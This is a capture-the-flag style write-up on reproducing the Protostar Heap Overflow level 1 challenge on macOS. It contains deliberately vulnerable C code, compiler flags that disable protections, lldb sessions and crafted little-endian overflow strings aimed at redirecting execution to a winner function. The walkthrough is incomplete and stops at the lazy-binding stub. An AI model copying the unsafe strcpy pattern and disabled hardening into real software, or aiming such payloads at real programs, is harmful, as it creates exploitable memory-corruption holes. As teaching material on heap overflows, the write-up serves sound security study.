

# Heap Overflow level 1
## Summary
This write-up mimics what liveOverflow showed in his great [video][295b9bea]. The difference is this article was written for `macOS`.  

I passed a specially crafted `String` into a vulnerable program to demonstrate a `Heap Overflow`.  The target was a piece of C code was from `Protostar Heap Overflow level 1` challenge.  This entire attack leverages the design of the `strcpy` API.  If you type in `man strcpy` into your macOS `Terminal` window you can read this:

> SECURITY CONSIDERATIONS
     > The strcpy() function is easily misused in a manner which enables malicious users to arbitrarily change a running program's functionality
     > through a buffer overflow attack.


  [295b9bea]: https://www.youtube.com/watch?v=TfJrU95q1J4&t=339s "video"

The following picture helped visualise the problem with `strcpy`:




There was a [beautiful article](https://developer.apple.com/library/archive/documentation/Security/Conceptual/SecureCodingGuide/Articles/BufferOverflows.html) from Apple explaining the differences between `Stack Overflows` and `Heap Overflows`.

##### Why write this article?
 The inspirational video was written on Linux.  Getting the same setup working on macOS was hard. The compiler ( `Clang` ) defaulted to safety.  You had to turn off `flags` for overflow to work on macOS.   These Compiler flags were brilliantly described in the following articles:

https://blog.quarkslab.com/clang-hardening-cheat-sheet.html

##### Why should I read this article?
Stop reading, if exploiting a lack of *Input Validation* sounds dull.  We end up in a place talking about overwriting `Registers`. These topics are for those interested in the lower level of code details.

##### Compile for Heap overflow
```
clang -fno-stack-protector -fno-sanitize=cfi -fno-sanitize=safe-stack -fno-PIE heap.c -D_FORTIFY_SOURCE=0 -o hitme

(lldb) settings show target.disable-aslr
target.disable-aslr (boolean) = true
```

#### Source code
The goal was to call the `winner` function by overflowing `Heap Memory` until you controlled the `Instruction Pointer`.
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <sys/types.h>

struct Internet {
    int priority;
    char *name;
};

void winner(void)
{
    puts("and we have a winner @ %ld\n");
}

int main(int argc, char **argv)
{
    // passing in two args
    struct Internet *i1, *i2;

    i1 = malloc(sizeof(struct Internet));
    i1->priority = 1;
    i1->name = malloc(8);

    i2 = malloc(sizeof(struct Internet));
    i2->priority = 2;
    i2->name = malloc(8);

    strcpy(i1->name, argv[1]);
    strcpy(i2->name, argv[2]);

    printf("and that's a wrap folks!\n");
    return 0;
}

```
#### Compile and run
```
clang -g heap.c-o hitme
./hitme   
[1]    56458 segmentation fault  ./hitme
```
#### Crash
You immediately get a crash.
```
libsystem_platform.dylib`_platform_strcpy:
->  0x7fff5b8ce54f <+15>: pcmpeqb xmm0, xmmword ptr [rsi]
```
Before you get despondent, try again..
```
./hitme   
[1]    56458 segmentation fault  ./hitme
./hitme AAA
[1]    56465 segmentation fault  ./hitme AAA
./hitme AAA BBB
and that's a wrap folks!
```
#### Debug crash
Type in `lldb` in your `Terminal`.

```
(lldb) file hitme
Current executable set to 'c_playground' (x86_64).
(lldb) r
```
Check where you are:
```
(lldb) frame info
frame #0: 0x00007fff5b8ce54f libsystem_platform.dylib` _platform_strcpy  + 15
```
Look at the `backtrace` to see how you got here.
```
(lldb) bt
* thread #1, queue = 'com.apple.main-thread', stop reason = EXC_BAD_ACCESS (code=1, address=0x0)
  * frame #0: 0x00007fff5b8ce54f libsystem_platform.dylib`  _platform_strcpy  + 15
    frame #1: 0x0000000100000ef3 hitme` main  + 131
    frame #2: 0x00007fff5b6e53d5 libdyld.dylib` start  + 1
```
`strcpy` was passed an empty address (`0x0`).  That caused the crash.  **A missed Command Line argument!**

In the crash it told you a register to look for:
```
(lldb) po $rsi
0
```
On macOS, which uses an x84/64 processor, the `Registers` names are: `First Argument = RDI` and `Second Argument = RSI`.

#### Breakpoint the crashing line
```
(lldb) b 0x00007fff5b8ce54f

(lldb) run AAAA

// breakpoint fired.  $arg2 works great on Intel and ARM and can be used here in place of $rsi
(lldb) po (char *) $arg2
"t."
```
That `Breakpoint` was poorly placed.  All the calls to `strcpy` fire.  Yes, there are a LOT of `strcpy` calls when you run a simple app on macOS.

#### Modify Command Line Arguments
```
(lldb) settings show target.run-args
target.run-args (array of strings) =
  [0]: "AAAA"

(lldb) setting set target.run-args "AAAA" "BBBB"

lldb) settings remove target.run-args 0
```
#### Re-Run with two args and a breakpoint
Add a breakpoint here:
```
(lldb) setting set target.run-args "AAAA" "BBBB"
(lldb) r
(lldb) b printf
// note some compiler may optimise this line to the put() API

(lldb) bt     // how did I get here?  Backtrace!
* thread #1, queue = 'com.apple.main-thread', stop reason = breakpoint 2.1
  * frame #0: 0x00007fff5b76fec4 libsystem_c.dylib` printf
    frame #1: 0x0000000100000f1e hitme` main  + 174
    frame #2: 0x00007fff5b6e53d5 libdyld.dylib` start  + 1
    frame #3: 0x00007fff5b6e53d5 libdyld.dylib` start  + 1

(lldb) frame select 1
frame #1: 0x0000000100000f1c c_playground_exploits` main(argc=3, argv=0x00007ffeefbff8d0)  + 188 at main.c:32

(lldb) p i1->name
error: use of undeclared identifier 'i1'
```

#### Debug Symbols
Re-compile the code with the Debug symbols flags enabled (`-g`).
```
clang -g -fno-stack-protector -fno-sanitize=cfi -fno-sanitize=safe-stack -fno-PIE heap.c -D_FORTIFY_SOURCE=0 -o hitme
```
Not re-attach your debugger, set the `printf` breakpoint and see:
```
(lldb) p i1->name
(char *) $9 = 0x0000000100300010 "AAAA"

(lldb) p i2->name
(char *) $10 = 0x0000000100300030 "BBBB"

(lldb) mem read -c8 i2->name
0x100484df0: 42 42 42 42 00 00 00 00                          BBBB....

(lldb) mem read -c8 0x100484df0
0x100484df0: 42 42 42 42 00 00 00 00                          BBBB....
```
#### Start the Heap Overflow
I overfilled the `String buffer` to purposely overwrite the `Instruction Pointer` with `GGGG` (that convert to Hex of `0x47474747`).
```
(lldb) setting set target.run-args "AAAABBBBCCCCDDDDEEEEFFFFGGGG" "00001111222233334444"

Process 70564 stopped
* thread #1, queue = 'com.apple.main-thread', stop reason = EXC_BAD_ACCESS (code=1, address=0x47474747)
(lldb) frame info
frame #0: 0x00007fff5b8cdd4d libsystem_platform.dylib` _platform_memmove$VARIANT$Haswell  + 141
(lldb) bt
* thread #1, queue = 'com.apple.main-thread', stop reason = EXC_BAD_ACCESS (code=1, address=0x47474747)
  * frame #0: 0x00007fff5b8cdd4d libsystem_platform.dylib` _platform_memmove$VARIANT$Haswell  + 141
    frame #1: 0x00007fff5b8ce594 libsystem_platform.dylib` _platform_strcpy  + 84
    frame #2: 0x0000000100000f0c hitme` main(argc=3, argv=0x00007ffeefbff720)  + 156 at heap.c:32
    frame #3: 0x00007fff5b6e53d5 libdyld.dylib` start  + 1
```
At this point, you can start reading values from the `Registers`.  Sometimes, you need to tell the debugger what type is inside a register.  For example:
```
(lldb) register read $rdi
     rdi = 0x0000000047474747
(lldb) register read $arg1
     rdi = 0x0000000047474747
(lldb) po (char *) $arg2
"00001111222233334444"
```
#### Find Target
```
(lldb) image list -b
[  0] c_playground_exploits

(lldb) image dump symtab -m c_playground_exploits
If you don't limit the dump, you will be overwhelmed.

Index   UserID DSX Type            File Address/Value Load Address       Size               Flags      Name
------- ------ --- --------------- ------------------ ------------------ ------------------ ---------- ----------------------------------
[    0]      0 D   SourceFile      0x0000000000000000                    Sibling -> [    4] 0x00640000 /.../heap.c
[    1]      2 D   ObjectFile      0x000000005d49582d                    0x0000000000000000 0x00660001 /var/folders/rb/kt2sv6k91fq5qkt4m8vjjnb80000gn/T/heap-d43f09.o
[    2]      4 D X Code            0x0000000100000e40 0x0000000100000e40 0x0000000000000030 0x000f0000 winner
[    3]      8 D X Code            0x0000000100000e70 0x0000000100000e70 0x00000000000000bb 0x000f0000 main
[    4]     12   X Absolute        0x0000000100000000                    0x0000000000000000 0x00030010 _mh_execute_header
[    5]     15     Trampoline      0x0000000100000f2c 0x0000000100000f2c 0x0000000000000006 0x00010100 malloc
[    6]     16     Trampoline      0x0000000100000f32 0x0000000100000f32 0x0000000000000006 0x00010100 printf
[    7]     17     Trampoline      0x0000000100000f38 0x0000000100000f38 0x0000000000000006 0x00010100 strcpy
[    8]     18     Trampoline      0x0000000100000f3e 0x0000000100000f3e 0x0000000000000006 0x00010100 time
[    9]     19   X Undefined       0x0000000000000000                    0x0000000000000000 0x00010100 dyld_stub_binder
```
The slicker way..
```
(lldb) image lookup -rn winner
1 match found in /app_binaries/hitme:
        Address: hitme[0x0000000100000e40] (hitme.__TEXT.__text + 0)
        Summary: hitme`winner at heap.c:15      // you only get this line when the -g (debug symbols) was specified when you compiled
```
#### Not an overflow but the same idea!
To prove the end goal let's quickly show how we get to the `winner` function and the success message:
```
and we have a winner @ 1565097438
```
We are trying to divert the Code.  Instead of calling `printf` with `"and that's a wrap folks!\n"` we want to overwrite the `RIP = Instruction Pointer` with the address of `winner = 0x0000000100000e40`.
```
(lldb) breakpoint set --name 'printf'
(lldb) settings set target.run-args "AAAA" "0000"
(lldb) r
(lldb) register read
// at this point you will see
rip = 140734727913156
```
What is that value?
```
(lldb) po $rip
140734727913156

(lldb) po (char *) $rip
"UH\xffffff89\xffffffe5H\xffffff81\xffffffec\xffffffd0"
```
That didn't help.  But it looked like a `pointer`.  Made sense.  An Instruction Pointer.  That means....
```
(lldb) image lookup --address 140734727913156
      Address: libsystem_c.dylib[0x0000000000040ec4] (libsystem_c.dylib.__TEXT.__text + 262848)
      Summary: libsystem_c.dylib`printf
```
Now to complete the puzzle.
```
(lldb) image lookup -rn winner
(lldb) register write $rip 0x0000000100000e40
(lldb) continue

and we have a winner @ 1565097438
```
#### Back to the Heap Overflow
We wanted to manipulate the normal `Code Path`.  Instead of calling `printf()` I wanted to call the `winner()` function.  How do achieve that with a crafted `Heap` overflow?  We start by entering a `String` that is much longer than the allocated size (`i2->name = malloc(8);`).

You can do that at the command prompt or with your debugger.
```
(lldb) settings set target.run-args "AAAABBBBCCCCDDDDEEEEFFFGGGG" "0000111122223333444455556666"`

Note -> There is definitely a caching feature on lldb I can't figure out.  
You have to run app from with lldb twice, to get the expected crash.
```
Now when you hit the crash, look at the `address` line.
```
* thread #1, queue = 'com.apple.main-thread', stop reason = EXC_BAD_ACCESS (code=1, address=0x100474747)

(lldb) register read $rdi
     rdi = 0x0000000100474747
```
Notice I made an error.  I was missing an "F" and also had an erroneous 1 in my sequence of number characters.
```
settings set target.run-args "AAAABBBBCCCCDDDDEEEEFFFFGGGG" "0000111122223333444455556666"

* thread #1, queue = 'com.apple.main-thread', stop reason = EXC_BAD_ACCESS (code=1, address=0x47474747)
```
##### Compiler optimizations - what is happening?
Ok, things are looking good.  I know which characters to manipulate.  But something strange is happening.  Why am I getting a crash in `memove`?  If you `backtrace` the crash it looks like the `Compiler` (named `Clang`) has purposely diverted all `strcpy` calls to `memmove'.

```(lldb) bt
* thread #1, queue = 'com.apple.main-thread', stop reason = EXC_BAD_ACCESS (code=1, address=0x100474747)
    frame #0: 0x00007fff5b8cdd86 libsystem_platform.dylib` _platform_memmove$VARIANT$Haswell  + 198
  * frame #1: 0x00007fff5b8ce594 libsystem_platform.dylib` \_platform_strcpy  + 84
    frame #2: 0x0000000100000f0c hitme` main(argc=3, argv=0x00007ffeefbff730)  + 156 at heap.c:32
    frame #3: 0x00007fff5b6e53d5 libdyld.dylib` start  + 1
```

I never had a call to `memmove`.  This looked like the Compiler had chosen to degrade my `strcpy` to `memmove`.

##### Trace the issue
`Frida-Trace` was an excellent tool for inspecting apps.  You could quickly validate if something strange was happening.
```
frida-trace -i "*memmove" -i "*strcpy" -f hitme "AAABAA" "BBB"
Instrumenting functions...                                              

and that's a wrap folks!
           /* TID 0x407 */
    48 ms  _platform_strcpy()
    48 ms     | _platform_memmove()
    48 ms  _platform_strcpy()
    48 ms     | _platform_memmove()
    48 ms  _platform_memmove()
```
Wow.  Found it.  Thanks Apple!

##### Alice in Wonderland
It got weirder.  To try and avoid this code change by Apple, I tried to use Compiler flags to keep the original, unsafe `strcpy` in my code.
```
clang -O0 -ffreestanding -fno-builtin -fno-stack-protector -fno-sanitize=cfi -fno-sanitize=safe-stack -fno-PIE -Wno-format-security -D_FORTIFY_SOURCE=0 heap.c -o hitme
```
Now try the same with these commands:
```
clang -D_FORTIFY_SOURCE=2 heap.c -o hitme
radare2 hitme
is    //  print symbols
```
The compiler flag `-D_FORTIFY_SOURCE=2` substituted the call to `strcpy` with `__strcpy_chk`.  This functions appeared to check for `Buffer Overflows`. Checking the source code for `__strcpy_chk` it added extra checks ( including `strlen` ) into the code and even called into `memcpy`. WHAT!  This is definitely different to the original `strcpy` code.
```
https://en.wikibooks.org/wiki/C_Programming/string.h/strcpy
https://opensource.apple.com/source/Libc/Libc-262/i386/gen/strcpy.c.auto.html
```
##### Setup strings for the Heap Overflow
I think the default behavior of swapping `strcpy` to safer alternatives matters for my example.  But just to be 100% that stops my attack, let's get the attack string ready.
```
(lldb) file hitme
Current executable set to 'hitme' (x86_64).
(lldb) image lookup -rn winner
        Address: hitme[0x0000000100000e50]
```
As the code was compiled on macOS (x86/64), any string I create with specific bytes must be in *`Little Endian`* format.  You can use of the `Radare2` family of tools to check what `endian` your binary requires.
```
rabin2 -I hitme

arch     x86
bits     64
canary   false
class    MACH064
endian   little
```
Using `printf`:
```
B=$(printf "AAAABBBBCCCCDDDDEEEEFFFF\x50\x0e\x00\x00")
C=$(printf "\x30\x0e\x00\x00GGGGGGGG")
lldb hitme $B $C
```
Using `echo` (and remembering to avoid passing a `newline`):
```
B=$(echo -ne "AAAABBBBCCCCDDDDEEEEFFFF\xff\xff\xff\xff")
C=$(echo -ne "\x40\x0e\x00\x00GGGGGGGG")
```
`lldb` can't display characters, trust what you typed.  Don't believe `settings show target.run-args`
```
(lldb) settings show target.run-args
target.run-args (array of strings) =
  [0]: "AAAABBBBCCCCDDDDEEEEFFFFP"
  [1]: "0"
```
##### Overflow working
Now you can see my string was passed as the `address`.
```
* thread #1, queue = 'com.apple.main-thread', stop reason = EXC_BAD_ACCESS (code=1, address=0xffffffff)
    frame #0: 0x00007fff5b8cdd86 libsystem_platform.dylib` _platform_memmove$VARIANT$Haswell  + 198
libsystem_platform.dylib`_platform_memmove$VARIANT$Haswell:
```
##### Where next?
Ok, to get this working we need to into alternative topics.  `lazy loading`, `__stub_helper` and the `Dynamic Linker`.

After that, I will overwrite the address the `Dynamic Linker` passes back to my code, when the `printf` call was made [ lazily ].   I will overwrite the address with the `winner` address.

```
settings set target.x86-disassembly-flavor intel
(lldb) disassemble --name main

(lldb) bt
* thread #1, queue = 'com.apple.main-thread', stop reason = EXC_BAD_ACCESS (code=2, address=0x100000e30)
    frame #3: 0x0000000100000f0a c_playground_exploits` main(argc=3, argv=0x00007ffeefbff898)  + 170 at main.c:30

Or by address:

(lldb) dis -s 0x0000000100000f0a
c_playground_exploits`main:
    0x100000f0a <+170>: lea    rdi, [rip + 0x87]         ; "and that's a wrap folks!\n"
    0x100000f11 <+177>: mov    qword ptr [rbp - 0x38], rax
    0x100000f15 <+181>: mov    al, 0x0
    0x100000f17 <+183>: call   0x100000f38               ; symbol stub for: printf


(lldb) image lookup --address 0x100000f38
      Address: c_playground_exploits[0x0000000100000f38] (c_playground_exploits.__TEXT.__stubs + 12)
      Summary: c_playground_exploits`symbol stub for: printf

(lldb) disas -s 0x0000000100000f38
c_playground_exploits`printf:
    0x100000f38 <+0>: jmp    qword ptr [rip + 0xe2]    ; (void *)0x0000000100000f68

(lldb) image lookup --address 0x0000000100000f68
      Address: c_playground_exploits[0x0000000100000f68] (c_playground_exploits.__TEXT.__stub_helper + 36)

```
